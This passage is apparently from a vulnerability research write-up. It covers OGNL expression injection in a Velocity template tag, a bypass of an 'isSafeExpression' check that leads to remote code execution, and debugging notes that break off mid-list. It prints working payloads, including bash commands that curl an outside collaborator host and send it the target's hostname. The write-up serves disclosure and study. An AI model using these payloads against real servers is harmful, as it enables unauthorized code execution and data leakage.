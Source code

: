 ```
  #tag ( "Hidden" name="queryString" value="''+#{""["class"].forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("curl <instance>.burpcollaborator.net")}+''" )
```

## Bonus - Better Payload

Though we got the code execution, there was a limitation on how the command is ran. The limitation is with `java.lang.Runtime.getRuntime().exec("String Command")` itself. Due to which we could not use redirections ( < > ) or Bash expansions like $() or `` or even operators like ;, |, &&, etc. 

To circumvant this we could have used overloaded exec method which takes array as an argument.

```java.lang.Runtime.getRuntime().exec(new String[]\{\{"/bin/bash","-c", "any linux command here"\})```

But unfortunately `isSafeExpression` gets triggerd with the usage of `new String[]`. We spent a good amount of time creating java arrays with the help of Reflections API but no luck with this as well.

Finally we came across this elegant solution which make use of `javax.script.ScriptEngineManager` to execute java code in javascript syntax. More on this at [Beans Validation RCE by @pwntester](https://securitylab.github.com/research/bean-validation-RCE/)

Final payload with shell features:

`queryString=aaa\u0027%2b#{\u0022\u0022[\u0022class\u0022].forName(\u0022javax.script.ScriptEngineManager\u0022).newInstance().getEngineByName(\u0022js\u0022).eval(\u0022var x=new java.lang.ProcessBuilder;x.command([\u0027/bin/bash\u0027,\u0027-c\u0027,\u0027'.$cmd.'\u0027]);x.start()\u0022)}%2b\u0027`

Which gets deocoded to -

```
queryString=aaa'+
#{

""["class"].forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("var x=new java.lang.ProcessBuilder;x.command(['/bin/bash','-c','curl domain/$(hostname)']);x.start()");

}
+'
 ```

![image](https://user-images.githubusercontent.com/21000421/131549246-4c012906-80ac-481f-9c2d-42156751ce16.png)

## Bonus - Debugging

**Disclaimer - We couldn't determine where exactly the issue lies in code flow but here's our preliminary investigation**

To find how the OGNL expressions are parsed in our user input that goes inside the velocity template. We set a breakpoint on `isSafeExpression` to see how the call stack looks like.

From our understanding & debugging we came to this conclusion:

Attributes of `#tag` components within Velocity template are evaluated as OGNL Expressions to convert the template into HTML.

- render method of `AST*` & `AbstractTagDirective` classes are called which inturn calls

  - processTag method of `AbstractTagDirective`, which calls doEndTag

      - And `evaluateParams` is where all name & value attributes are individually tried to be found & eventually parsed as OGNL expressions by method `findValue()` but before that
 ```